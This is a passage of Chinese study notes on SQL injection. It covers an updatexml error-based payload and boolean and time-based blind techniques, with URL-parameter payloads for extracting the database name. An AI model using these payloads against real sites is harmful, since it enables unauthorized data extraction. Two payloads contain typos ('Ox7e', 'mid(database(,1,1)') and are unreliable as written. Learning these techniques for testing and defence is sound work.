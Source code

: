 ```
?id= 1' and updatexml(1,concat(Ox7e,(select database()),0x7e),1) --+
```



## 盲注

### 先获取当前字符串长度,再去获取字符串,每一个字符

**利用前提 没有回显位,没有输出SQL语句执行错误函数,只能通过页面返回正常不正常来注入  优点不需要显示位,不需要SQL执行错误函数 ,缺点 速度慢,时间长**

**盲注分为基于布尔和基于SQL**

一般这种情况就需要使用,盲注(很像正常网站)

![image-20230921153246376](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921153246376.png)

先用`?name=' or length(database())>5 limit 1 --+`来判断数据库名称长度,注意源码是不是限制输出一行

再来截取database(),一般我们转换为ascii来用二分法来判断

`?name=lucy' and ascii(substr(database(),2,1))>105 --+`

![image-20230921164927425](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921164927425.png)

还可以不使用ascii,直接来判断字符相不相等

`?name=lucy' and mid(database(,1,1)='p'--+`

![image-20230921164939831](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921164939831.png)

也可以使用正则来对比

`?name=' or database() regexp '^p' limit 1 --+` 正则的表达式需要带引号

![image-20230921164903049](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921164903049.png)

还可以使用like来判断

`?name=' or database() like 'p%' limit 1 --+`  也是需要带引号

![image-20230921164848880](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921164848880.png)

### 时间盲注

利用前提:没有显示位,没有输出SQL语句错误函数,正确的SQL和错误的SQL的返回页面都一样,但是加入sleep(5),响应时间有区别

缺点,速度慢  优点,不需要显示位,不用出错信息

![image-20230921165015870](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921165015870.png)

![image-20230921165024376](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921165024376.png)

![image-20230921165043098](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230921165043098.png)

## 其他注入
